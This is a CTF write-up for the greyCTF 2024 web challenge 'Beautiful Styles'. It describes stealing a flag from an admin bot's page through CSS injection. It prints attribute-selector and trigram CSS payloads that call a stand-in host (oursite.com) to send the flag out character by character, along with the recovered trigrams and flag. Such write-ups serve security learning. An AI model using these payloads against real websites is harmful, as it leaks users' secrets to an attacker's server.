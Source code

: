 ```yaml
---
title: Beautiful Styles
date: 2024-04-27
tags: 
- web
- css
- author-hartmannsyg
categories: greyCTF 2024
---
```


solved by {% person hartmannsyg %}

> I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag only consists of numbers and uppercase letters and the lowercase character `f` (the exception is the flag format of grey{.+})<br>
> Author: Junhua
> http://challs.nusgreyhats.org:33339

Or, if you were working on the challenge in the beginning:

> I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag <u>*only consists of numbers and uppercase letters*</u>

We are given a website to submit css:

![](../../static/greyCTF2024/bs1.png)

Our css will then be loaded, and we have to somehow extract the flag in this `<input>`:

![](../../static/greyCTF2024/bs2.png)

When we submit the css for "judging", what just means is that the admin bot will visit that page with the real flag in the `<input>`

Since we can only inject css, we can't xss, so how can we exfiltrate for the flag?

## CSS Injection

### The normal way

We can host our own website, and exfiltrate each character of the flag one at a time

{% ccb gutter1:1-6,S,73-78 lang:css %}
#flag[value^="grey{A"] {
    background-image: url(http://oursite.com/A)
}
#flag[value^="grey{B"] {
    background-image: url(http://oursite.com/B)
}
/*SKIP_LINE:(...)*/
#flag[value^="grey{Y"] {
    background-image: url(http://oursite.com/Y)
}
#flag[value^="grey{Z"] {
    background-image: url(http://oursite.com/Z)
}
{% endccb %}

This uses a css attribute selector. So for example, if our flag starts with `grey{X`, this css will load:
```css
#flag[value^="grey{A"] {
    background-image: url(http://oursite.com/A)
}
```
and we receive a request with the url `http://oursite.com/X`. This way, we know that the flag starts with `X`

> Note that you also need to check for numbers (and `f`) as well. 

But what if you found this too slow and wanted to blood it?

### My way

There is another technique that is used in css exfiltration know as <u>trigrams</u>. Essentially, instead of checking whether an attribute *starts with* something, we check if the attribute *contains* a sequence of characters. (Three is generally optimal since if we only use 2 and there is a repeated character, it becomes hard to reconstruct the flag, and 4 is simply too big to upload most of the time):

{% ccb gutter1:1-11,S,46657 lang:css %}
[value*="000"]{--000:url(http://oursite.com/000);}
[value*="001"]{--001:url(http://oursite.com/001);}
[value*="002"]{--002:url(http://oursite.com/002);}
[value*="003"]{--003:url(http://oursite.com/003);}
[value*="004"]{--004:url(http://oursite.com/004);}
[value*="005"]{--005:url(http://oursite.com/005);}
[value*="006"]{--006:url(http://oursite.com/006);}
[value*="007"]{--007:url(http://oursite.com/007);}
[value*="008"]{--008:url(http://oursite.com/008);}
[value*="009"]{--009:url(http://oursite.com/009);}
[value*="00A"]{--00A:url(http://oursite.com/00A);}
/*SKIP_LINE:(...)*/
#flag[value] { background:var(--000,none),var(--001,none),/*etc...*/; }
{% endccb %}

This is similar to the previous example, but in order to save characters, I have opted to use css variables instead to compress the payload slightly (the url still makes up the bulk on the data)

With all that in place, let's receive our trigrams:

{% ccb terminal:true wrapped:true %}
0UC,1ND,34R,4NF,4RC,C4N,5S3,RCH,NF1,S34,Y0U,X5S,CH1,ND1,D1T,UC4,F1N
{% endccb %}

uhhhhhhhhhhhhhhh, we can construct two substrings of the flag `X5S34RCH1` and `Y0UC4NF1ND1T`, but why is one thing missing????????????

Unfortunately someone else blooded this already.

After dying for several minutes, I decided to fall back on the normal strategy, but it still didn't work. There was nothing after `grey{X5S34RCH1`. Then I decided to mix in lowercase letters (cuz why not). And it turns out there was an `f` after `X5S34RCH1` like what the fuck why is there an `f` there ?????????

<img src="https://media1.tenor.com/m/JIS_KDKKsgYAAAAd/guaton-computadora.gif" width="500rem">

Anyways, I got the flag: `grey{X5S34RCH1fY0UC4NF1ND1T}` (3rd solve)

They later updated the description to include that `f` existed, and then a billion people solved it and it went down to 100 points in like three microseconds so it was all for nothing.

<img src="https://media1.tenor.com/m/kU_EwdsrkLkAAAAC/frieren-dies-cold.gif" width="500rem">

## Scripts